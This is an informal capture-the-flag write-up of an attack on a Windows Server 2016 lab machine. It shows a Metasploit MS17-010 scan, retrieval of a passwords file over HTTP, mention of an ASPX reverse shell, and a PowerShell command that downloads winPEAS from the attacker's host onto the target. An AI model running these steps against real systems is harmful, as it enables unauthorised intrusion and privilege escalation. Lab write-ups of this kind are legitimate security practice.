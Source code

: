 i won't show this here because this room says that writeups are not allowed,so...

first i tried with john but i remember that the passwords.txt contains "Encode" 

then,i used this site to break those two passwords

https://dencode.com

after that i run a scanner in msf6 and...

~~~
$ msfconsole
$ use scanner/smb/smb_ms17_010
$ set RHOSTS $ip
$ run 
~~~

Host is likely VULNERABLE to MS17-010! - Windows Server 2016 Standard Evaluation 14393 x64 (64-bit)

ok,let's go exploit this


update:  I lost a big part of what i do after this because of a problem in my OS , but to resume all, i couldn't  made anything yet, i stayed a long time analazying the ports and services etc etc but doesn't found anything.

the one thing that i found is that can access the files in webserver

~~~
$ curl http://$ip:49663/nt4wrksv/passwords.txt
~~~

i tried to up a php shell but doesn't returns anything for me,so , i don't know ....

when i try to access the payload i receive a 404,but this is just with .php 

OBVIOUS, THE PAGE USES ASP.NET NOT .PHP

ok i can make a rev shell with shell.aspx and it works

;)

i could got the user flag in Users directories,but the administrator is closed,maybe with Bill password? it's worth a try!

runas is closed when i try insert password, i don't know why 

i'll use linpeas to find a way to do a privilege escalation

bro it's hard to find archives when the cmd delays five years to send me a response .......

i don't have curl or wget, i'll use powershell -Invoke-Request to get the linpeas

$ powershell -command "Invoke-WebRequest -UseBasicParsing -Uri http://10.8.146.128:8000/winPEASany.exe -Method GET -OutFile winpeas.exe"

bros took 20 minutes to do this request but it's ok(maybe this scan delays one year to give me results), now i'm going to run linpeas

after ten minutes: anything yet, i'll read while this doesn't finish

ok,finally it finished!

i'm going to put all that winpeas found in scan folder
